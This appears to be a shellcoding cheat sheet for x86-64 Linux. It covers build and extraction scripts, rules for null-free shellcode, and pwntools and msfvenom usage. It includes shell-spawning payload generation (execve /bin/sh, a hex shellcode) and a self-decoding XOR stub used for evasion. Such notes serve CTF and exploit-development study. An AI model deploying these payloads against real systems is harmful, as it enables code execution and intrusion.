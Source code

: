 # Shellcoding
- [shellstorm](http://shell-storm.org/shellcode/index.html)
- [pwntools asm docs](https://docs.pwntools.com/en/stable/asm.html)
- [pwntools cli docs](https://docs.pwntools.com/en/stable/commandline.html)

## Basic toolchain

### Code
```bash
#!/bin/bash
# build-shellcode.sh

if [ -z "$1" ]; then
  echo "Usage: $0 filename"
  exit 1
fi

run_flag=false
if [ "$2" == "--run" ]; then
  run_flag=true
fi

filename=$(basename -- "$1")
filename_noext="${filename%.*}"

nasm -f elf64 "$1" -o "${filename_noext}.o"

ld "${filename_noext}.o" -o "${filename_noext}.linked"

python parse-shellcode.py "${filename_noext}.linked"

if [ "$run_flag" == true ]; then
  ./"${filename_noext}.linked"
fi
```

```python
#!/usr/bin/python3
# parse-shellcode.py

import sys
from pwn import *

context(os="linux", arch="amd64", log_level="error")

file = ELF(sys.argv[1])
shellcode = file.section(".text")

print(shellcode.hex())
print(''.join([r'\x{:02x}'.format(c) for c in shellcode]))

print("%d bytes - Found NULL bytes" % len(shellcode)) if [i for i in shellcode if i == 0] else print("%d bytes - No NULL bytes" % len(shellcode))
```
### Usage
```bash
./build-shellcode.sh some_asm_shellcode.asm --run
```

## Shellcode ASM template
> shellcode_asm_template.asm
```asm
section .text
    global _start

_start:
    xor rax, rax
    mov rax, 0x6574616161616c70
    push rax
    mov rax, 0x6d657420656d6f53 
    push rax

    xor rax, rax
    mov al, 0x01
    mov dil, 0x01
    mov rsi, rsp
    mov dl, 16
    syscall

    xor al, al
    mov al, 0x3c
    xor dil, dil
    syscall
```

## Compliance 
The shellcode must fill the following requirements:
- Does not contain variables
  - The entire shellcode must be under the `.text` section. 
  - Move strings to the stack, max size per "push" is 8 bytes, in reverse order.
```asm
mov rbx, 'hi'
push rbx
mov rbx, 'bonjour '
push rbx
mov rsi, rsp
```
- Does not refer to direct memory addresses
  - Replace with calls to labels or rip-relative addresses (for calls and loops)
  - Push to the Stack and use rsp as the address (for mov and other assembly instructions)
- Does not contain any null bytes (00)
  - Use registers that match the data size (like `mov al, 1` instead of `mov rax, 1`)
```asm
    mov bx, 'hi'
    push bx
    mov rbx, 'bonjour '
    push rbx
    mov rsi, rsp
    mov al, 1
    mov dil, 1
    mov dl, 10
    syscall
```

## With pwntools
```bash
pwn asm 'pop rax; push rax;' -c 'amd64'
#
# 5850
#

pwn disasm '5850' -c 'amd64'
#
#   0:    58                       pop    rax
#   1:    50                       push   rax
#

pwn disasm '6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05' -c amd64
```

```python
python
>>> from pwn import *
>>> context.update(arch='amd64', os='linux')
>>> asm('mov rax,1')
>>> asm('mov rax,1').hex()
>>> printb = lambda x: print(' '.join(f'{byte:02x}' for byte in x))
>>> lprintb = lambda filename: print(' '.join(f'{byte:02x}' for byte in ELF(filename).section('.text')))
>>> printb(ELF('someExe').section('.text'))

>>> run_shellcode(unhex('4831db66bb7921...')).interactive()
```

## Shellcrafting
- [pwntools shellcraft amd64 docs](https://docs.pwntools.com/en/stable/shellcraft/amd64.html)
```bash
pwn shellcraft -l 'amd64.linux'
pwn shellcraft amd64.linux.sh
```

```python
from pwn import *
context(os="linux", arch="amd64", log_level="error")
dir(shellcraft)

syscall = shellcraft.execve(path='/bin/sh', argv=['/bin/sh'])
asm(syscall).hex()
```

### With msfvenom
```bash
msfvenom -l payloads | grep 'linux/x64'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'

python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('...'))" > shell.bin
msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin
```

## Self modifying shellcode on the stack (XOR)
Requires executable and writeable stack
```
(gdb) info proc map
          Start Addr           End Addr       Size     Offset Perms  objfile
     0x7ffffffde000     0x7ffffffff000    0x21000        0x0  rwxp   [stack]
```
```asm
section .text
global _start

_start:
    sub rsp, shellcode_len
    jmp short call_encoded_shellcode

shellcode:
    pop rsi
    xor rcx, rcx
    mov rdi, rsp 
    mov cl, shellcode_len
    rep movsb 
    mov cl, shellcode_len
    mov bl, 0xaa 
    mov rsi, rsp 

decode_loop:
    xor byte [rsi], bl
    inc rsi
    loop decode_loop
    jmp rsp

call_encoded_shellcode:
    call shellcode 
    encoded_shellcode:
        db 0xe2,0x9b,0x6a    ; Add a already XORed shellcode here

shellcode_len equ $ - encoded_shellcode
```
